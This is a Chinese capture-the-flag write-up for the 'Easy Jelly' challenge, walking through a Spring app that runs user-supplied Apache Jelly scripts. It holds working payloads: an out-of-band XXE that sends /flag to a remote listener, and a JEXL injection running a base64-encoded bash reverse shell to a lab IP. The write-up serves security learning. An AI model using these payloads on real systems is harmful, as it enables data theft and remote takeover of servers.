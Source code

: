 # Easy Jelly题解
## 考点
- Jelly利用
- 非预期：无回显XXE
- 预期：jexl表达式注入

## 分析与解答
### 非预期XXE无回显注入
有个jar包，用IDEA打开，可以看到源`.class`文件内容，基本上也就等价于拿到了源码，其中`IndexController.class`内容如下：
```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.ctf.jelly;

import java.io.IOException;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import org.apache.commons.jelly.JellyContext;
import org.apache.commons.jelly.Script;
import org.apache.commons.jelly.XMLOutput;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.w3c.dom.Document;
import org.xml.sax.SAXException;

@Controller
public class IndexController {
    public IndexController() {
    }

    private static Boolean check(String uri) throws IOException, ParserConfigurationException, SAXException {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        dbf.setNamespaceAware(true);
        DocumentBuilder builder = dbf.newDocumentBuilder();
        Document doc = builder.parse(uri);
        int tag1 = doc.getElementsByTagNameNS("*", "expr").getLength();
        int tag2 = doc.getElementsByTagNameNS("*", "import").getLength();
        int tag3 = doc.getElementsByTagNameNS("*", "include").getLength();
        int tag4 = doc.getElementsByTagNameNS("*", "invoke").getLength();
        int tag5 = doc.getElementsByTagNameNS("*", "invokeStatic").getLength();
        int tag6 = doc.getElementsByTagNameNS("*", "new").getLength();
        int tag7 = doc.getElementsByTagNameNS("*", "parse").getLength();
        int tag8 = doc.getElementsByTagNameNS("*", "set").getLength();
        int tag9 = doc.getElementsByTagNameNS("*", "setProperties").getLength();
        int tag10 = doc.getElementsByTagNameNS("*", "out").getLength();
        int tag11 = doc.getElementsByTagNameNS("*", "useBean").getLength();
        return tag1 <= 0 && tag2 <= 0 && tag3 <= 0 && tag4 <= 0 && tag5 <= 0 && tag6 <= 0 && tag7 <= 0 && tag8 <= 0 && tag9 <= 0 && tag10 <= 0 && tag11 <= 0 ? true : false;
    }

    @RequestMapping({"/"})
    @ResponseBody
    public String Index() {
        return "Try to eat jelly";
    }

    @RequestMapping({"/jelly"})
    @ResponseBody
    public String Jelly(@RequestParam(required = true) String uri) {
        try {
            if (check(uri)) {
                JellyContext context = new JellyContext();
                Script script = context.compileScript(uri);
                script.run(context, XMLOutput.createXMLOutput(System.out));
                return "Tasty Jelly :)";
            }
        } catch (Exception var4) {
        }

        return "no way :(";
    }
}
```

漏洞点就在于`context.compileScript(uri).run(context, XMLOutput.createXMLOutput(System.out))`处，不过在此之前，通过`check()`过滤了一些jelly标签(这些分析均是在没有细致研究jelly下推测出来的，泪目.jpg)。

在本地搭一下复现环境，文件放到了`jelly_ctf`文件夹下，在该目录下依次执行如下命令：
```shell
sudo docker build -t httpd:jelly .
sudo docker run -d -p 8081:80 httpd:jelly
sudo docker ps
```

会有如下效果：\
![alt text](images/image1.png)

然后由于是无回显的，所以需要外带显示，因此需要一台vps，在vps上准备如下文件内容，由于我没有vps，因此就在同靶机上准备了，道理都是一样的：
```xml
# 1.xml
<!DOCTYPE test [
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % dtd SYSTEM "http://192.168.59.129:7777/evil.dtd">
%dtd;
]>
```
```xml
# evil.dtd
<!ENTITY % all "<!ENTITY &#x25; send  SYSTEM 'http://192.168.59.129:8888/%file;'> ">
%all;
%send;
```

在vps上利用python快速起一个http服务，放入`1.xml`和`evil.dtd`：\
![alt text](images/image3.png)

然后利用nc监听`8888`端口：\
![alt text](images/image2.png)

构造payload为`/jelly?uri=http://192.168.59.129:7777/1.xml`：\
![alt text](images/image4.png)

在vps上会有如下结果，可以看到靶机加载了xml后，读取本地的`flag`文件内容，并将其发送到远程：\
![alt text](images/image5.png)



### 预期：jexl表达式注入
搭建环境一样的

然后是`1.xml`的内容为如下：
```xml
<?xml version="1.0" encoding="utf-8"?>
<j:jelly xmlns:j="jelly:core">
<j:getStatic var="str"
className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/> <j:whitespace>${str
.class
.forName('javax.script.ScriptEngineManager').newInstance() .getEngineByName('js')
.eval('java.lang.Runtime.getRuntime().exec(&quot;  bash -c `{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU5LjEvOTk5OSAwPiYx|{base64,-d}|{bash,-i}` &quot;)')}</j:whitespace>
</j:jelly>
```

在vps上开启nc监听，监听`9999`端口：\
![alt text](images/image6.png)

然后payload为`/jelly?uri=http://192.168.59.129:7777/1.xml`：\
![alt text](images/image4.png)

反弹shell：\
![alt text](images/image7.png)


<mark>以上就是这道题的考点内容，具体的jelly底层，可能还得需要花时间去分析这个漏洞是怎么形成的，最近时间太赶了呜呜呜呜~</mark>


## 参考
[\[1\] Apache Common Jelly浅析](https://xz.aliyun.com/t/16667?time__1311=Gui%3DYKGKDKiKY5DsLBxCq7In1xjEl71naoD#toc-4)\
[\[2\] Jelly官方文档](https://commons.apache.org/proper/commons-jelly/)\
[\[3\] 国城杯2024 线上赛 writeup](https://jaspersec.top/2024/12/16/0x12%20%E5%9B%BD%E5%9F%8E%E6%9D%AF2024%20writeup%20with%20docker/#easy-jelly)